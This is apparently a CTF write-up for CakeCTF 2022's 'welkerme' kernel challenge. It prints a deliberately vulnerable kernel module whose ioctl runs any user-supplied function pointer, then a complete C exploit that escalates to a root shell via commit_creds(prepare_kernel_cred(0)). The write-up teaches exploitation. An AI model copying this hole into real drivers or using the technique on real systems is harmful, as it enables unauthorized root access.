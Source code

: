 ```yaml
---
layout: post
readtime: true
tags: [kernel]
---
```

### Attachments : [welkerme.tar.gz](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/welkerme_afcc40e7baa18649730945cde6475354.tar.gz) , [compress.sh](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/welkerme/compress.sh)
<br>

First of all, let's have a look on the source code of the driver.
```c
#include <linux/cdev.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/random.h>
#include <linux/slab.h>
#include <linux/uaccess.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("ptr-yudai");
MODULE_DESCRIPTION("welkerme - CakeCTF 2022");

#define DEVICE_NAME "welkerme"
#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

static int module_open(struct inode *inode, struct file *filp) {
  printk("'module_open' called\n");
  return 0;
}

static int module_close(struct inode *inode, struct file *filp) {
  printk("'module_close' called\n");
  return 0;
}

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  long (*code)(void);
  printk("'module_ioctl' called with cmd=0x%08x\n", cmd);

  switch (cmd) {
    case CMD_ECHO:
      printk("CMD_ECHO: arg=0x%016lx\n", arg);
      return arg;

    case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();

    default:
      return -EINVAL;
  }
}

static struct file_operations module_fops = {
  .owner   = THIS_MODULE,
  .open    = module_open,
  .release = module_close,
  .unlocked_ioctl = module_ioctl
};

static dev_t dev_id;
static struct cdev c_dev;

static int __init module_initialize(void)
{
  if (alloc_chrdev_region(&dev_id, 0, 1, DEVICE_NAME))
    return -EBUSY;

  cdev_init(&c_dev, &module_fops);
  c_dev.owner = THIS_MODULE;

  if (cdev_add(&c_dev, dev_id, 1)) {
    unregister_chrdev_region(dev_id, 1);
    return -EBUSY;
  }

  return 0;
}

static void __exit module_cleanup(void)
{
  cdev_del(&c_dev);
  unregister_chrdev_region(dev_id, 1);
}

module_init(module_initialize);
module_exit(module_cleanup);
```

This is the source code of a kernel module. Inserting or loading the module into the kernel creates a device (file) at `/dev/welkerme`. We can interact with the driver using `ioctl`. Calling `ioctl` with the command `CMD_EXEC` i.e `0xc0de0002` would call an arbitrary function pointer supplied by the user as `ioctl` arg. 

```c
case CMD_EXEC:
      printk("CMD_EXEC: arg=0x%016lx\n", arg);
      code = (long (*)(void))(arg);
      return code();
```


Before actually doing something, let's have a look on some core concepts related to privilege escalation.

### task_struct
This is the Process Control Block and stores all the information needed by a process. Every task has a `task_struct` object living in memory. 

```c
struct task_struct {
    volatile long state;            // process state (running, stopped, ...)
    void *stack;                    // task's stack pointer
    int prio;                       // process priority
    struct mm_struct *mm;           // memory address space
    struct files_struct *files;     // open file information
    const struct cred *cred;        // credentials
  // ...
};

struct cred {
    // .
    // .
    // .
    kuid_t  uid;        /* real UID of the task */
    kgid_t  gid;        /* real GID of the task */
    kuid_t  suid;       /* saved UID of the task */
    kgid_t  sgid;       /* saved GID of the task */
    kuid_t  euid;       /* effective UID of the task */
    kgid_t  egid;       /* effective GID of the task */
    // .
    // .
    // .
};
```
The `cred` struct stores information about the owner, capabilities,etc. of a process. Privilege escalation is achieved via changing `current_task->cred->euid` to 0. (Might need to change some other id's depending on situation). The following code will do this for us!
```c
commit_creds(prepare_kernel_cred(0));
```
`prepare_kernel_cred` prepares a set of credentials for a kernel service which is committed by passing its return value as an argument to the function `commit_creds`.

Cool, not let's find out the address of `prepare_kernel_cred` and `commit_creds`. To do this, we need to read `/proc/kallsyms` by booting into the kernel as root. Run `debug.sh`, provided by the author. 
```sh
/ # cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff810726e0 T prepare_kernel_cred

/ # cat /proc/kallsyms | grep commit_creds
ffffffff81072540 T commit_creds
```
Let's write a helper function for calling `commit_creds(prepare_kernel_cred(0))`
```c
void getRoot(){
    void* (*prepare_kernel_cred)(int) = 0xffffffff810726e0;
    void (*commit_creds)(void*) = 0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}
```
After that, we only need to call `ioctl` and supply a pointer to the function `getRoot`

```
ioctl(fd, CMD_EXEC, &getRoot);
system("/bin/sh");
```
Complete exploit:
```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define CMD_ECHO 0xc0de0001
#define CMD_EXEC 0xc0de0002

void getRoot(){
   void* (*prepare_kernel_cred)(int) = (void*)0xffffffff810726e0;
    void (*commit_creds)(void*) = (void*)0xffffffff81072540;
    commit_creds(prepare_kernel_cred(0));
}

int main(void) {
  int fd = open("/dev/welkerme",O_RDWR);
  if(fd==-1){
    perror("open");
    exit(1);
  }

  ioctl(fd, CMD_EXEC, &getRoot);
  system("/bin/sh");
  close(fd);
  return 0;
}

```
Compile, deliver and run this exploit to escalate privileges to the root!
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/welkerme_1.png"/>

### References
https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/
